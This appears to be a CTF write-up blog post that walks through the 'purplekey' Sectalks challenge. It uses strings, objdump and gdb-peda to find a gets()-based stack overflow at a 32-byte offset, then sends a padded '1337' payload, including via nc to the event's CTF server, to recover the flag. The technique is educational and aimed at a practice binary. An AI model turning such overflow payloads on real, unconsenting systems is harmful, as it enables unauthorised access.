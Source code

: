 ```yaml
---
layout: post
title: "Sectalks 0x13 purplekey write up"
description: "sectalks 0x13 purplekey write up"
category: writeups
tags: [boot2root, vulnhub]
---
```

At sectalks this month ceyx gave great talk on binary exploitation for beginners.
In this two part blog post, I'll be documenting my findings for the two challenges I worked on.

The first challenge named "purplekey" is a standard ELF executable.

```
root@kali:~/sectalks# file purplekey
purplekey: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.35, BuildID[sha1]=25be0cc5aa2121ba25d77660b8d9404f44c362a3, not stripped
```
Running strings on the executable we see that it'll likely ask us for a key and depending on if the inputted key is correct, it'll print the contents of /home/purplekey/flag.

```
root@kali:~/sectalks# strings purplekey
---8<---
FAIL
=1337us
[^_]
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key:
> Key provided is: %s
/home/purplekey/flag
[!] You're not BillyG, who are you?
---8<---

```
To make sure the binary works as expected, I've created the file /home/purplekey/flag with the contents "You win".
Now lets actually run the binary and see what happens.

```
root@kali:~/sectalks# ./purplekey
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
> Key provided is: AAAAAAA
[!] You're not BillyG, who are you?
```
It looks like it's taking our inputted string, truncating it and comparing it to something.
Using objdump, let's dissassemble the binary and find the location of the comparision.

```
root@kali:~/sectalks# objdump -M intel -D purplekey
---8<---
08048560 <main>:
 80485b3:       01 c2                   add    edx,eax
 80485b5:       c7 04 24 34 87 04 08    mov    DWORD PTR [esp],0x8048734
 80485bc:       e8 5f fe ff ff          call   8048420 <puts@plt>               ;print a line
 80485c1:       c7 04 24 54 87 04 08    mov    DWORD PTR [esp],0x8048754
 80485c8:       e8 53 fe ff ff          call   8048420 <puts@plt>               ;print a line
 80485cd:       c7 04 24 77 87 04 08    mov    DWORD PTR [esp],0x8048777
 80485d4:       e8 07 fe ff ff          call   80483e0 <printf@plt>             ;print a line
 80485d9:       8d 84 24 18 01 00 00    lea    eax,[esp+0x118]
 80485e0:       89 04 24                mov    DWORD PTR [esp],eax
 80485e3:       e8 08 fe ff ff          call   80483f0 <gets@plt>               ;reads our input
 80485e8:       8d 84 24 38 01 00 00    lea    eax,[esp+0x138]
 80485ef:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 80485f3:       c7 04 24 83 87 04 08    mov    DWORD PTR [esp],0x8048783
 80485fa:       e8 e1 fd ff ff          call   80483e0 <printf@plt>             ;print a line
 80485ff:       8b 84 24 38 01 00 00    mov    eax,DWORD PTR [esp+0x138]
 8048606:       3d 31 33 33 37          cmp    eax,0x37333331                   ;perform a comparision
 804860b:       75 73                   jne    8048680 <main+0x120>             ;if the comparision succeeds jump to the code which prints the flag
---8<---
```
Now that we know the address of the comparision, let's generate an input file to test.
```
root@kali:~/sectalks# echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' > input
root@kali:~/sectalks# gdb -q purplekey
Reading symbols from purplekey...(no debugging symbols found)...done.
```

Set a breakpoint at the comparision at 0x8048606

```
gdb-peda$ b *0x8048606
Breakpoint 1 at 0x8048606
```
Finally, let's run the executable with the generated input file.

```
gdb-peda$ r < input
Starting program: /root/sectalks/purplekey < input
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key: > Key provided is: AAAAAAAAAAA
[----------------------------------registers-----------------------------------]
EAX: 0x41414141 ('AAAA')
EBX: 0x20 (' ')
ECX: 0xffffb06f --> 0x0
EDX: 0xf7fac870 --> 0x0
ESI: 0x1
EDI: 0xf7fab000 --> 0x1b3db0
EBP: 0xffffd6b8 --> 0x0
ESP: 0xffffd570 --> 0x8048783 ("> Key provided is: %s\n")
EIP: 0x8048606 (<main+166>:     cmp    eax,0x37333331)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80485f3 <main+147>:        mov    DWORD PTR [esp],0x8048783
   0x80485fa <main+154>:        call   0x80483e0 <printf@plt>
   0x80485ff <main+159>:        mov    eax,DWORD PTR [esp+0x138]
=> 0x8048606 <main+166>:        cmp    eax,0x37333331
   0x804860b <main+171>:        jne    0x8048680 <main+288>
   0x804860d <main+173>:        lea    ebx,[esp+0x18]
   0x8048611 <main+177>:        mov    eax,0x0
   0x8048616 <main+182>:        mov    edx,0x40
[------------------------------------stack-------------------------------------]
0000| 0xffffd570 --> 0x8048783 ("> Key provided is: %s\n")
0004| 0xffffd574 --> 0xffffd6a8 ('A' <repeats 11 times>)
0008| 0xffffd578 --> 0xf7e04564 --> 0x72647800 ('')
0012| 0xffffd57c --> 0xf7fd4858 --> 0xf7df7000 --> 0x464c457f
0016| 0xffffd580 --> 0xffffd5d4 --> 0x0
0020| 0xffffd584 --> 0xffffd5d0 --> 0x0
0024| 0xffffd588 --> 0x3
0028| 0xffffd58c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048606 in main ()
```
As we can the program is comparing part of our input stored in EAX with the static value 0x37333331.
We could rerun the binary several times to calculate where the program was taking the value 0x41414141 from but it's faster to use the pattern_create/pattern_search features to find the exact offset.

```
gdb-peda$ pattern_create 100 input
Writing pattern of 100 chars to filename "input"
gdb-peda$ r < input
Starting program: /root/sectalks/purplekey < input
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key: > Key provided is: A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
[----------------------------------registers-----------------------------------]
EAX: 0x41412941 ('A)AA')
EBX: 0x20 (' ')
ECX: 0xffffb0a8 --> 0x0
EDX: 0xf7fac870 --> 0x0
ESI: 0x1
EDI: 0xf7fab000 --> 0x1b3db0
EBP: 0xffffd6b8 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
ESP: 0xffffd570 --> 0x8048783 ("> Key provided is: %s\n")
EIP: 0x8048606 (<main+166>:     cmp    eax,0x37333331)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80485f3 <main+147>:        mov    DWORD PTR [esp],0x8048783
   0x80485fa <main+154>:        call   0x80483e0 <printf@plt>
   0x80485ff <main+159>:        mov    eax,DWORD PTR [esp+0x138]
=> 0x8048606 <main+166>:        cmp    eax,0x37333331
   0x804860b <main+171>:        jne    0x8048680 <main+288>
   0x804860d <main+173>:        lea    ebx,[esp+0x18]
   0x8048611 <main+177>:        mov    eax,0x0
   0x8048616 <main+182>:        mov    edx,0x40
[------------------------------------stack-------------------------------------]
0000| 0xffffd570 --> 0x8048783 ("> Key provided is: %s\n")
0004| 0xffffd574 --> 0xffffd6a8 ("A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffd578 --> 0xf7e04564 --> 0x72647800 ('')
0012| 0xffffd57c --> 0xf7fd4858 --> 0xf7df7000 --> 0x464c457f
0016| 0xffffd580 --> 0xffffd5d4 --> 0x0
0020| 0xffffd584 --> 0xffffd5d0 --> 0x0
0024| 0xffffd588 --> 0x3
0028| 0xffffd58c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048606 in main ()
gdb-peda$ pattern_search
Registers contain pattern buffer:
EAX+0 found at offset: 32
Registers point to pattern buffer:
[EBP] --> offset 48 - size ~52
Pattern buffer found at:
0xf7fd2000 : offset    0 - size  100 (mapped)
0xffffb063 : offset   32 - size   68 ($sp + -0x250d [-2372 dwords])
0xffffd688 : offset    0 - size  100 ($sp + 0x118 [70 dwords])
References to pattern buffer found at:
0xf7fab5a4 : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5a8 : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5ac : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5b0 : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5b4 : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5b8 : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5bc : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xffffd404 : 0xf7fd2000 ($sp + -0x16c [-91 dwords])
0xffffd420 : 0xf7fd2000 ($sp + -0x150 [-84 dwords])
0xffffd434 : 0xf7fd2000 ($sp + -0x13c [-79 dwords])
0xffffaa40 : 0xffffb063 ($sp + -0x2b30 [-2764 dwords])
```
We see that after 32 bytes of input our input is being loaded into EAX for comparision.
Now that we know the offset that the string is being loaded from and the correct string that it's being compared to, we can generate an input which should pass the comparision.

```
root@kali:~/sectalks# python -c 'print "A"*32 + "1337"' | ./purplekey
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key: > Key provided is: 1337
You win
```
OK, so it worked. Let's try against the actual ctf server to get the flag.

```
root@kali:~/sectalks# python -c 'print "A"*32 + "1337"' | nc -v hack.sydney 9001
DNS fwd/rev mismatch: hack.sydney != ec2-52-62-2-205.ap-southeast-2.compute.amazonaws.com
hack.sydney [52.62.2.205] 9001 (?) open
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key: > Key provided is: 1337
hack.Sydney{fB1_t01d_m3_b4ckd00r5_w3r3_s4f3_wh4t_w3nt_wr0ng}
```
The flag for purplekey is **hack.Sydney{fB1_t01d_m3_b4ckd00r5_w3r3_s4f3_wh4t_w3nt_wr0ng}**
